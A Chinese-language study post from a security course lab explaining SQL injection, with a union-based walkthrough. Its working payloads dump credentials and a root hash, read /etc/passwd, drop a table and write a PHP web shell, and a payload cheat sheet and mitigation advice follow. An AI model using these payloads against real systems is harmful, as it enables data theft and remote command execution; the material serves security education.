






引言:
This twofold use of knowledge, that is, knowledge can be used equally for good or eveil.
预备知识
- 具备网站交互基本知识
- 具备数据库基本知识
- 具备SQL语言的基本操作知识
正文内容
本文的内容来自网络课程练习，而非真实生产环境。主要目的是梳理近来学习的知识，编辑成文，以便个人往后回顾之用。如你意外阅读到该内容，请遵守当地相应的法律法规，切记合法合理使用工具和知识，不要怀有侥幸心理，以免失足坠入深渊，难以自拔。
如你继续浏览，将表明你同意不将其后学习的知识用在非法途径上，仅此。
闲话说完，开始正文。
SQL注入基本介绍
背景
在现代的网络应用结构中，服务端在浏览器侧，服务端在远程服务器侧。访问的发生：用户使用浏览器（只要符合HTTP/HTPS协议的工具即可 curl, wget也是可行的）提交URL指定需要访问的网站，网站反馈前端的静态页面（这里省略DNS,CDN等多个过程，主要关注用户端和服务端的交互），当用户尝试在页面执行如登录或搜索的作时，用户的请求通过前端的web服务器页面提交到应用服务器（其多运行php,java,python代码），应用服务器执行部分逻辑代码，当需要使用数据时，则唤醒后端的数据库服务器（Access, MySQL, SQL Server, Oracle, PostgreSQL）。
该流程如下图所示

在这个模型中，用户端通过网络应用访问数据库服务器而无需通过帐号密码登录。数据库的安全性，无形之中转移到了网络应用开发者和数据库管理员的身上，他们的一个逻辑的漏洞那个或配置的疏忽都将会成为攻击者手中可以利用的漏洞，轻则对服务器文件进行读取，重则可以对服务器进行后门的植入，获得如同管理员一般的权限。
SQLi的含义
- 为了让用户能更好地使用仿佛，网络应用一般配备了多个输入框，等待用户发出请求。即使是最简陋的网络应用，注册好帐号让用户登录，至少也需要一对用户密码输入的输入框。用户输入帐号名和密码后，应用服务器调用数据库服务器的数据进行比对，确认用户身份。这个时候，SQL就出现了，虽然用户本身从来未编写SQL访问语句，但是应用服务器与数据库交就包含了SQL语言（无论是明的SQL构建，疑惑是调用了其他库代码）。SQL语言是和数据库交互的重要语言，普通用户最多也就只有随意输入的能耐，但当网络应用面对的*是一个了解SQL语言的恶意用户，情况就会变得复杂了。这位而已用户，就会利用SQL的特性，在输入对话框中，输入相关的SQL语句，偏离对话框设定的预设用用途，恶意对数据库进行访问。这种通过在输入对话框（有时候也存在于URL）中输入SQL非法访问数据库的做法，就被称为SQL注入（Injection）。
NoSQL
- 当前较为常用的数据库依然是
关系型数据库，其数据库的交互方式便是使用SQL语言。目前还有一类较为火的数据库，被称为NoSQL（Non-relational Databases）。关系型数据库其存储模型是一个表格，非关系型数据库存储模型比较多样：包括K-V键值对,图存储，对象存储。需要注意一点NoSQL是不支持SQL语句,最流行的NoSQL是MongoDB。 NoSQL也有其相应的攻击方式，被称为NoSQL Injections，它和SQL注入有较大的区别，也不是本文讨论的重点。
- 当前较为常用的数据库依然是
SQLi的方式
In-band SQLi (Classic SQLi): 带内SQL注入是最常规也是最容易被利用的SQL攻击。在简单的情况下，预期查询和新查询的输出都可以直接打印在前端，我们可以直接读取。这将会是带内攻击的一个常规场景。
- Error-based SQLi：基于错误信息的SQLi是一个常会被利用的SQL攻击。在应用系统开发的过程中，使用错误信息提示开发者是十分常见的，但如果该代码在最终系统上出现，将会是一个极其危险的漏洞。
- Union-based SQLi (本文介绍)：基于Union的SQLi是利用SQL语句
UNION操作，对数据库表格进行合并操作，通过联合多个SELECT语句生成单一结果并在相关位置进行显示的攻击。
Inferential SQLi (Blind SQLi)：有些时候，我们无法将SQL攻击得到的内容直接现在到页面上，这种场景的攻击被称为盲带攻击。攻击者将通过发送有效负载、观察 Web 应用程序的响应以及数据库服务器的最终行为来重建数据库结构。
- Boolean-based (content-based) Blind SQLi：基于布尔的SQL注入是一种推理式的SQL注入技术，它依赖于向数据库发送一个SQL查询，迫使应用程序根据查询返回的结果是TRUE还是FALSE而返回不同的结果。根据不同的结果，HTTP响应中的内容将改变，或保持不变。这允许攻击者推断出所使用的有效载荷是返回真还是假，即使没有返回数据库的数据。这种攻击通常很慢(特别是在大型数据库上)，因为攻击者需要逐个字符地列举数据库。
- Time-based Blind SQLi：基于时间的SQL注入是一种推理式SQL注入技术，它依赖于向数据库发送一个SQL查询，迫使数据库在响应前等待指定的时间(以秒为单位)。响应时间将向攻击者表明查询的结果是真还是假。根据结果，HTTP响应将被延迟返回或立即返回。这允许攻击者推断所使用的有效载荷是返回真还是假，即使没有返回数据库的数据。这种攻击同样也需要耗费很长的时间在枚举数据库上。
Out-of-band SQLi：这种注入方式并不常见。在某些情况下，我们可能无法直接访问输出，因此我们可能必须将输出定向到远程位置，“即 DNS 记录”，然后尝试从那里检索它。这称为带外 SQL 注入。

SQL注入的基本流程
SQL 攻击往往源自没有对用户输入内容进行“清洗”所导致的，网络应用里所有的输入框，都应该加以防范。一旦掉以轻心，就很容易成为他人利用的一个漏洞。
假设以下代码是查询用户是否在系统中存在的源代码
1
2
3
4
5$conn = new mysqli("localhost", "root", "password", "users"); # 连接数据库
$searchInput = $_POST['findUser']; # 用户输入
$query = "select * from logins where username like '%$searchInput'";
# 拼接查询字段,查看用户输入内容是否在`logins`表格的`username`字段中
$result = $conn->query($query); # 通过数据库提交SQL语句在以上的
php代码中，没有对用户信息进行任何的过滤。假如这是一位恶意用户，其输入%1'; DROP TABLE users，边足以让数据库执行删除users这一数据表。1
select * from logins where username like '%1'; DROP TABLE users;'
以下将尝试提供一个较为完整的 UNION SQL注入实例
准备内容
SQL相关字符在URL中的转换
1
2
3
4
5
6
7
8
9+---------+-------------+
| Payload | URL Encoded |
+---------+-------------+
| ' | %27 |
| " | %22 |
| # | %23 |
| ; | %3B |
| ) | %29 |
+---------+-------------+mysql 的注释方式
--,#- 由于仅使用
--不足以实现注释，一般其后需要跟上空格, 因此注释一般是-- -, 第三个-仅仅是为了表明有空格 #在浏览器中会被认为是特殊字符，需要转换为%23才能使用- 综上，一般注释使用
-- -
- 由于仅使用
背景： 当前有一网站，http://ip.ip.ip.ip:port/search.php'
判断sql：
1
select * from xxx where port_code = '{YOUR_QUERY}'

当我们在输入栏输入
'后点击search后，发现地址栏出现了变化（参数的传递），并且在页面下出现了报错信息
数据库基本信息的获得
获得当前数据表格/SCHEMA的行数（通过 order by）
输入
cn' order by 1 -- -cn'搜索占位，刷去不需要的数据库显示内容- 输入
' order by X -- - - 前面的的
'用于配对服务器'YOUR_QUERY'，左边的',使其凑成一个配对，后续进行我们需要的操作 - order by N, 根据第N行进行排列，N是整数，数字可从1开始逐一递增到10..11,直至显示错误提示信息（
Unknow column X in 'order clause'）,该显示表明当前的N已超过了表格列的范围，因此表格的最终行数为N-1
http://167.99.202.131:32451/search.php?port_code=' order by 1 – -
1
2
3
4
5
6
7
8select * from XXX where port_code ='cn' order by X -- -'
+-----------+-----------+-------------+
| port code | port city | port volume |
+-----------+-----------+-------------+
+-----------+-----------+-------------+
Unknow column X in 'order clause'
获得当前在表格视图中，使用的行列信息 （通过 UNION）
- 输入
cn' union select 1,2,3,4 -- - - UNION 需要结合和表格相同的列数使用，这也是为什么需要第一步
- 假设我们第一步，输入N为5时触发了
Unknow信息，因此表格/SCHEMA的大小为4 - 让信息在表格中相应显示，让我们知道目前表格信息使用了哪几列，便于后续展示使用
- 此处可以发现，使用到的列为
2,3,4，估计第一列应该是ID信息1
2
3
4
5
6
7
8select * from XXX where port_code ='cn' \
union select 1, 2, 3, 4, -- -'
+-----------+-----------+-------------+
| port code | port city | port volume |
+-----------+-----------+-------------+
| 2 | 3 | 4 |
+-----------+-----------+-------------+
- 输入
获得当前数据库的版本以及用户信息 （让信息在给定表格中显示）
- 输入
cn' union select null,@@version,user(),null -- - - 第一个
NULL是占位置无法显示的, 最后一个NULL也没有意义， @@version是版本信息user()查看用户信息1
2
3
4
5
6
7
8select * from XXX where port_code ='cn' union \
select null,@@version,user(),null, -- -'
+---------------------------+----------------+-------------+
| port city | port city | port volume |
+---------------------------+----------------+-------------+
| 10.3.22-MariaDB-1ubuntu1 | root@localhost | |
+---------------------------+----------------+-------------+
- 输入
获得其他数据库/SCHEMA名称
- 输入
cn' union select null,SCHEMA_NAME,null,null from INFORMATION_SCHEMA.SCHEMATA -- - - 查看存放数据库元信息的数据库(数据的名称，表格名称等等)
INFORMATION_SCHEMA的表格(试图的元数据)SCHEMATA1
2
3
4
5
6
7
8
9
10
11
12
13select * from XXX where port_code ='' union \
select null,SCHEMA_NAME,null,null \
from INFORMATION_SCHEMA.SCHEMATA -- -'
+--------------------+-----------+-------------+
| port city | port city | port volume |
+--------------------+-----------+-------------+
| information_schema | | |
| mysql | | |
| performance_schema | | |
| ilfreight | | |
| dev | | |
+--------------------+-----------+-------------+
- 输入
获得当前使用的数据库/SCHEMA名称
- 输入
' union select null,database(),null,null -- - - 使用函数
database()查看1
2
3
4
5
6
7
8select * from XXX where port_code ='cn' \
union select null,database(),null,null -- -'
+-----------+-----------+-------------+
| port city | port city | port volume |
+-----------+-----------+-------------+
| ilfreight | | |
+-----------+-----------+-------------+
- 输入
- 获得数据库/SHCEMA
dev所包含的表格- 输入
cn' union select null,TABLE_NAME,table_schema,null from information_schema.tables where table_schema='dev' -- - - 联合元表格中
table_schema字段中有dev的内容 - 在表格的第一列输出表格名称
TABLE_NAME, 第二列输出数据库/SCHEMA1
2
3
4
5
6
7
8
9
10
11
12select * from XXX where port_code ='' union \
select null,TABLE_NAME,table_schema,null from information_schema.tables \
where table_schema='dev' -- -
+-------------+-----------+-------------+
| port city | port city | port volume |
+-------------+-----------+-------------+
| framework | dev | |
| pages | dev | |
| credentials | dev | |
| posts | dev | |
+-------------+-----------+-------------+
- 输入
获得数据库/SCHEMA
dev表格credentials相应的列名称- 输入
cn' union select 1, column_name,table_name,table_schema from information_schema.columns where table_name='credentials' -- - column_name提取出行名称1
2
3
4
5
6
7
8
9
10select * from XXX where port_code ='cn' union \
select union select null, column_name,table_name,table_schema \
from information_schema.columns where table_name='credentials' -- -
+-----------+-------------+-------------+
| port city | port city | port volume |
+-----------+-------------+-------------+
| username | credentials | dev |
| password | credentials | dev |
+-----------+-------------+-------------+
- 输入
获得dev这个数据/SCHEMA中
credentials表格username和password相关的数据- 输入
cn' union select null, username, password, null from dev.credentials -- - dev.credentials访问的相关表格username和password访问的相关信息1
2
3
4
5
6
7
8select * from XXX where port_code ='cn' union \
select union select null, username, password, null from dev.credentials -- -
+-----------+-------------+-------------+
| port city | port city | port volume |
+-----------+-------------+-------------+
| user1 |*my_password | |
+-----------+-------------+-------------+
- 输入
通过SQL读取系统文件
查看文件是否有
super_priv权限，- 输入
cn' union select null,super_priv,null,null from mysql.user -- - - 此前查看我们当前登录的用户是
root@localhost - 可以通过该用户名查当前是否拥有该权限，将其显示在表格中
- 此处的
Y证明该权限的存在1
2
3
4
5
6
7
8
9select * from XXX where port_code ='cn' union \
select null,super_priv,null,null from mysql.user \
where user = 'root' -- -`
+------------+------------+-------------+
| Port Code | Port City | Port Volume |
+------------+------------+-------------+
| Y | | |
+------------+------------+-------------+
- 输入
获得数据root@localhost的密码哈稀值
- 通过查看数据库
mysql.user获得 - 输入
cn' union select null, user, password, null from mysql.user -- -1
2
3
4
5
6
7select * from XXX where port_code ='cn' union \
select null, user, password, null from mysql.user -- -'
+------------+-------------------------------------------+-------------+
| Port Code | Port City | Port Volume |
+------------+-------------------------------------------+-------------+
| root | *00CD4F3F18928665AE2E1485012AC46B5E25B933 | |
+------------+-------------------------------------------+-------------+
- 通过查看数据库
查看用户文件权限属性
- 输入
cn' union select null, grantee, privilege_type, is_grantable from information_schema.user_privileges -- - - 通过
information_shcema.user_privileges读取字段grantee,privilege_type, is_grantable - 主要关注
FILE权限是YES表明对文件有阅读权限1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19select * from XXX where port_code ='cn' union \
select null, grantee, privilege_type, is_grantable \
from information_schema.user_privileges -- -'
+--------------------+------------+-------------+
| Port Code | Port City | Port Volume |
+--------------------+------------+-------------+
| 'root'@'localhost' | SELECT | YES |
| 'root'@'localhost' | INSERT | YES |
| 'root'@'localhost' | UPDATE | YES |
| 'root'@'localhost' | DELETE | YES |
| 'root'@'localhost' | CREATE | YES |
| 'root'@'localhost' | DROP | YES |
| 'root'@'localhost' | RELOAD | YES |
| 'root'@'localhost' | SHUTDOWN | YES |
| 'root'@'localhost' | PROCESS | YES |
| 'root'@'localhost' | FILE | YES |
| SNIP | SNIP | SNIP |
+--------------------+------------+-------------+
- 输入
读取文件
/etc/passwd
- 输入
cn' union select null, load_file('/etc/passwd'), null, null -- - - 通过函数
select load_file('/path/to/file')1
2
3
4
5
6
7
8select * from XXX where port_code ='cn' union \
select null, load_file('/etc/passwd'), null, null -- -
+------------------------------------------+-----------+-------------+
| Port Code | Port City | Port Volume |
+------------------------------------------+-----------+-------------+
| root:x:0:0:root:<SNIP>:/usr/sbin/nologin | | |
+------------------------------------------+-----------+-------------+
- 在页面内读取
search.php源代码，获得配置文件
目前已经可以在提供的表格中展示查看到的内容
我们可以尝试将
search.php的源代码文件放在上面显示（/var/www/html 默认apache2的目录）输入
cn' union select null, load_file('/var/www/html/search.php'), null, null -- -利用
Ctrl+U，可以打开浏览器源代码页面
此时，我们发现源代码中引入了
config.php，这个我们此前不知道的文件，我们照例将其输出到页面的表格中查看内容输入
cn' union select null, load_file('/var/www/html/config.php'), null, null -- -

通过SQL创建webshell
- 文件的写入是一个十分敏感的操作，对于
Mariadb/MySQL数据库，我们可以通过查看secure_file_priv字段的内容设置获得更多信息。 - secure_file_priv: 限制数据库导入导出（import/export）操作的关键参数。在
file属性被设置为YES的前提下，查看该参数。- ‘ ‘ (
empty): 表示该参数没有生效，意味这没有进行设定，因此可通过MySQL语句进行导入/导出(写入)操作 - NULL: 表示系统不允许进行导入/导出操作
- /path/to/some/dir: 指定相关的路径下拥有导入/导出操作
- ‘ ‘ (
- 提示： MariaDB默认会将该值设为
empty，因此允许我们对系统进行读写操作。MySQL默认使用/var/lib/mysql-files作为其内容，因此仅仅能在该目录下在下读写。
- 查看
secure_file_priv设定- 输入
cn' union select NULL, variable_name, variable_value,NULL FROM information_schema.global_variables where variable_name='secure_file_priv'-- - - 通过查看数据表
information_schema.global_variables过滤相关字段secure_file_priv1
2
3
4
5
6
7
8
9
10select * from XXX where port_code ='cn' union \
select NULL, variable_name, variable_value,NULL \
FROM information_schema.global_variables \
where variable_name='secure_file_priv'-- -'
+------------------+------------+-------------+
| Port Code | Port City | Port Volume |
+------------------+------------+-------------+
| SECURE_FILE_PRIV | | |
+------------------+------------+-------------+
- 输入
- 在当前目录下，写入内容
proof.txt- 输入
cn' union select 1,'file written successfully!', 3, 4 into outfile '/var/www/html/proof.txt' -- - - 通过使用
select txt1,txt2,txt3,txt4 into outfile '/path/to/file'写入文件 - 执行该操作后页面是不会有输出的，可以通过此前查看文件的方式验证
cn' union select null, load_file('/var/www/html/proof.txt'), null, null -- -1
2
3
4
5+----------------------------------+------------+-------------+
| Port Code | Port City | Port Volume |
+----------------------------------+------------+-------------+
| 1 file written successfully! 3 4 | | |
+----------------------------------+------------+-------------+
- 输入
- 直到目前我们通过SQLi的方式，已经可以对远程服务器进行文件的读取和文件的写入了。这已经能对服务器造成很大的影响，我们可以去尝试撞击服务器的敏感文件例如
/etc/shadow或其他服务的敏感数据，进而获得更高的用户权限，甚至利用其他漏洞达到rootkit获取最高权限。为了让我们的操作更为方便，我们可以通过webshell来方便我们的操作。 webshell是一个恶意脚本，其目的一般是为了提高权限和持续访问和对已经受到攻击的网络应用持续访问。webshell不能被攻击或作为远程漏洞被利用，因此一般作为攻击后的第二步。webshell可以通过多种web编程语言去书写，其中PHP是最为流行的。无论你是自行开发的软件还是常见的内容管理系统如：Wordpress插件。webshell也不会被防病毒或反恶意软件检测到，因为它们不使用典型的可执行文件类型。同时，它们很容易向公众提供，例如，通过几个GitHub项目。
在当前网络应用注入
websehll，文件名称为shell.php- 输入
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - - 将
<?php system($_REQUEST[0];) ?>写入到/var/www/html/shell.php这个文件上 - 访问页面
shell.php, 通过?0=cmd传入名利参数
1
2
3
4
5# http://ip.ip.ip.ip:port/shell/php?0=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# http://ip.ip.ip.ip:port/shell/php?0=whoami
www-data- 输入
如何缓解SQL注入
- 应用程序层面
- 正如上门所说的，我们能够使用
UNION进行带内注入，是有赖于应用开发过程中，遗留下了数据库执行的提示信息。在应用开发的过程中，调用数据库的提示内容确实有助于开发时的问题排查，但在提交到生产环境山上，这样的代码有着很大的危险，应该引起重视。 UNION能实现的本质是，用户输入的内容未进行清洗便直接用于执行，这种对用户输入的信任是不且当的。对于用户的输入内容，均必须进行必要的清洗，不能直接拿来使用。- 除了对数据进行清洗，在数据输入的同时我们也应该首先对数据进行必要的检测。目前输入数据的检查，已经相当成熟，对于用户的内容输入例如
邮箱，可以通过简单的正则匹配，确认其是否有正确输入，对于密码输入的内容，应该限制客户使用的密码长度，选用的特殊字符等内容，以避免用户输入', --这类数据库保留的的元字符。
- 正如上门所说的，我们能够使用
- 数据库层面
- 数据库的用户权限应该被限制，默认的
root@localhost用户拥有这过大的权限，一旦被攻破其巨大的权限同时以为这强大的破坏力。 - 数据库的视图SHEMA是一个对数据表格限制有力的工具，只需要几个简单步骤就能创建出来，创建的视图可以将权限分配给特定的数据库用户，该用户应该只具备对该试图进行查看的操作。
- 数据库的
file权限是一个很大的权限，该权限应该被加以限制，如没有特定需要的服务，不应该开启该权限功能 - 数据库的
secure_file_priv应该按照将其强制设定在指定的目录或可读的NULL模式，而不能贪图方便将其设定在(empty)空模式下
- 数据库的用户权限应该被限制，默认的
- 额外的内容
- 对于网络应用程序的安全，目前不少云服务供应商都会提供
Web application firewall（WAF）的相关功能，这些功能能有效检测HTTP的恶意请求，建议可按需进行开启，也算是为应用增加了一层防护。
- 对于网络应用程序的安全，目前不少云服务供应商都会提供
补充延伸
| Command | Description |
|---|---|
| General | |
mysql -u root -h docker.hackthebox.eu -P 3306 -p |
login to mysql database |
SHOW DATABASES |
List available databases |
USE users |
Switch to database |
| Tables | |
CREATE TABLE logins (id INT, ...) |
Add a new table |
SHOW TABLES |
List available tables in current database |
DESCRIBE logins |
Show table properties and columns |
INSERT INTO table_name VALUES (value_1,..) |
Add values to table |
INSERT INTO table_name(column2, ...) VALUES (column2_value, ..) |
Add values to specific columns in a table |
UPDATE table_name SET column1=newvalue1, ... WHERE <condition> |
Update table values |
| Columns | |
SELECT * FROM table_name |
Show all columns in a table |
SELECT column1, column2 FROM table_name |
Show specific columns in a table |
DROP TABLE logins |
Delete a table |
ALTER TABLE logins ADD newColumn INT |
Add new column |
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn |
Rename column |
ALTER TABLE logins MODIFY oldColumn DATE |
Change column datatype |
ALTER TABLE logins DROP oldColumn |
Delete column |
| Output | |
SELECT * FROM logins ORDER BY column_1 |
Sort by column |
SELECT * FROM logins ORDER BY column_1 DESC |
Sort by column in descending order |
SELECT * FROM logins ORDER BY column_1 DESC, id ASC |
Sort by two-columns |
SELECT * FROM logins LIMIT 2 |
Only show first two results |
SELECT * FROM logins LIMIT 1, 2 |
Only show first two results starting from index 2 |
SELECT * FROM table_name WHERE <condition> |
List results that meet a condition |
SELECT * FROM logins WHERE username LIKE 'admin%' |
List results where the name is similar to a given string |
MySQL Operator Precedence
- Division (
/), Multiplication (*), and Modulus (%) - Addition (
+) and Subtraction (-) - Comparison (
=,>,<,<=,>=,!=,LIKE) - NOT (
!) - AND (
&&) - OR (
||)
SQL Injection
| Payload | Description |
|---|---|
| Auth Bypass | |
admin' or '1'='1 |
Basic Auth Bypass |
admin')-- - |
Basic Auth Bypass With comments |
| Auth Bypass Payloads | |
| Union Injection | |
' order by 1-- - |
Detect number of columns using order by |
cn' UNION select 1,2,3-- - |
Detect number of columns using Union injection |
cn' UNION select 1,@@version,3,4-- - |
Basic Union injection |
UNION select username, 2, 3, 4 from passwords-- - |
Union injection for 4 columns |
| DB Enumeration | |
SELECT @@version |
Fingerprint MySQL with query output |
SELECT SLEEP(5) |
Fingerprint MySQL with no output |
cn' UNION select 1,database(),2,3-- - |
Current database name |
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - |
List all databases |
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - |
List all tables in a specific database |
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - |
List all columns in a specific table |
cn' UNION select 1, username, password, 4 from dev.credentials-- - |
Dump data from a table in another database |
| Privileges | |
cn' UNION SELECT 1, user(), 3, 4-- - |
Find current user |
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - |
Find if user has admin privileges |
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - |
Find if all user privileges |
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - |
Find which directories can be accessed through MySQL |
| File Injection | |
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - |
Read local file |
select 'file written successfully!' into outfile '/var/www/html/proof.txt' |
Write a string to a local file |
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - |
Write a web shell into the base web directory |
参考链接
- Types of SQL Injection # SQL注入类型
- INFORMATION SCHEMA Tables # INFORMATION_SCHEMA 信息
- secure file priv # secure_file_priv 信息
- webshell articles # An Introduction to Web Shells
- SQL Injection Fundamentals # relevant course